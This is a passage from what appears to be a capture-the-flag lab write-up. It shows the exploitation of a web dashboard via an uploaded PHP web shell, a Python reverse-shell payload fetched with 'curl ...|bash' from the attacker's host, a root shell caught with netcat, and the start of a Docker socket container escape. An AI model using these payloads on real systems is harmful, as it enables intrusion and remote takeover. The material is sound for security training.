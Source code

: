 After uploading it, we can see that it is successfully written to `uploads/shell.php`.

![Web 80 Admin Dashboard Finance4](web_80_admin_dashboard_finance4.webp){: width="1200" height="600"}

Now, once again using the `/dashboard.php` endpoint, we can try to access the web shell and execute commands by changing `lottery.php` to `uploads/shell.php?cmd=id`. We can see this works as expected and we are able to execute commands.

![Web 80 Dashboard Rce](web_80_dashboard_rce.webp){: width="1000" height="500"}

We can use this web shell to get a proper shell. First, we create our reverse shell payload and serve it on our web server:

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.101.76",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...       
```
{: .wrap }

Now, with the payload `uploads/shell.php?cmd=curl+10.14.101.76|bash`, we can see the server hangs.

![Web 80 Dashboard Rce2](web_80_dashboard_rce2.webp){: width="1000" height="500"}

On our listener, we have a shell as **root** inside a Docker container.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.177.42] 37372
# python3 -c 'import pty;pty.spawn("/bin/bash");'
root@4f18a45cca05:/var/www/html/uploads# export TERM=xterm
root@4f18a45cca05:/var/www/html/uploads# ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

root@4f18a45cca05:/var/www/html/uploads# id
uid=0(root) gid=0(root) groups=0(root)
```

### Escaping the Container

Either manually or using an automated tool to enumerate the container, we can notice that the Docker socket is mounted inside the container, which allows us to interact with the Docker daemon.

```console
root@4f18a45cca05:/var/www/html/uploads# ls -la /var/run/docker.sock
srw-rw---- 1 root 121 0 Sep 19 20:31 /var/run/docker.sock
```

Luckily for us, `docker` is installed inside the container, and we can use it to interact with the Docker daemon via the socket.
